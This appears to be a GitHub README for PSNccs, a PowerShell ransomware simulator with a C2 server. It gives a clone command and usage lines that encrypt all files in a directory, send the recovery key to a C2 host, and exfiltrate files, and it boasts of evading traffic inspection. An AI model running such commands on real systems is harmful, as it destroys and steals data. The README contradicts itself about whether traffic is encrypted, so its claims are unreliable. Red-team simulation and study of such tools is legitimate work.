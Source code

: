
# PSNccs
**PSNccs** is a PowerShell Ransomware Simulator with C2 Server capabilities. This tool helps you simulate encryption process of a generic ransomware in any system on any system with PowerShell installed on it. Thanks to the integrated C2 server, you can exfiltrate files and receive client information via HTTP. 

All communication between the two elements is encrypted or encoded so as to be undetected by traffic inspection mechanisms, although at no time is HTTPS used at any time.

# Requirements
- PowerShell 4.0 or greater


# Download
It is recommended to clone the complete repository or download the zip file.
You can do this by running the following command:
```
git clone https://github.com/DarkHacker420/PSNccs
```


# Usage
```
.\PSNccs -h

  ____  ____  ____
 |  _ \/ ___||  _ \ __ _ _ __  ___  ___  _ __ ___
 | |_) \___ \| |_) / _' | '_ \/ __|/ _ \| '_ ' _ \
 |  __/ ___) |  _ < (_| | | | \__ \ (_) | | | | | |
 |_|   |____/|_| \_\__,_|_| |_|___/\___/|_| |_| |_|

  ----------------- by @DARK-SHADOW ----------------

 Info:  This tool helps you simulate encryption process of a
        generic ransomware in PowerShell with C2 capabilities

 Usage: .\PSNccs.ps1 -e Directory -s C2Server -p C2Port
          Encrypt all files & sends recovery key to C2Server
          Use -x to exfiltrate and decrypt files on C2Server

        .\PSNccs.ps1 -d Directory -k RecoveryKey
          Decrypt all files with recovery key string

 Warning: All info will be sent to the C2Server without any encryption
          You need previously generated recovery key to retrieve files

```


# License
This project is licensed under the GNU 3.0 license - see the LICENSE file for more details.



